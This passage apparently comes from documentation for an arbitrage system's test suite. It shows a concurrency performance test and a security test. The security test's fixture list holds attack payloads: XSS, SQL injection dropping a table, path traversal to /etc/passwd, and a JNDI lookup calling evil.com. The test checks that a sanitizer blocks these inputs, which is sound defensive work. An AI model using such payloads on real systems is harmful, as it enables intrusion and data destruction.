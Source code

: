 **Example Test:**
```javascript
it('should handle 1000+ concurrent operations', async () => {
  const operations = Array(1000).fill().map((_, i) => 
    processArbitrageOpportunity(mockData[i])
  );
  
  const startTime = Date.now();
  const results = await Promise.all(operations);
  const duration = Date.now() - startTime;
  
  expect(results.every(r => r.success)).toBe(true);
  expect(duration).toBeLessThan(5000); // <5s for 1000 operations
});
```

**Performance Metrics:**
- **Throughput:** 200+ ops/second
- **Latency P95:** <50ms
- **Memory Efficiency:** <50MB for 10k items
- **Cache Hit Rate:** >85%

---

### **6. 🔒 Security Validation Tests (12 tests)**

**Purpose:** Prevents attacks and ensures data protection

**Security Layers:**
1. **Input Sanitization:** XSS, SQL injection, path traversal prevention
2. **Rate Limiting:** Adaptive token bucket with reputation scoring
3. **Bot Detection:** Behavioral analysis and pattern recognition
4. **Data Integrity:** Checksum validation and encryption
5. **Error Sanitization:** Sensitive information leak prevention

**Example Test:**
```javascript
it('should prevent injection attacks', () => {
  const maliciousInputs = [
    '<script>alert("xss")</script>',
    '"; DROP TABLE tokens; --',
    '../../../etc/passwd',
    '${jndi:ldap://evil.com/}'
  ];
  
  maliciousInputs.forEach(input => {
    const sanitized = sanitizeInput(input, 'token_symbol');
    expect(sanitized.safe).toBe(true);
    expect(sanitized.output).not.toContain('<script>');
    expect(sanitized.output).not.toContain('DROP TABLE');
  });
});
```
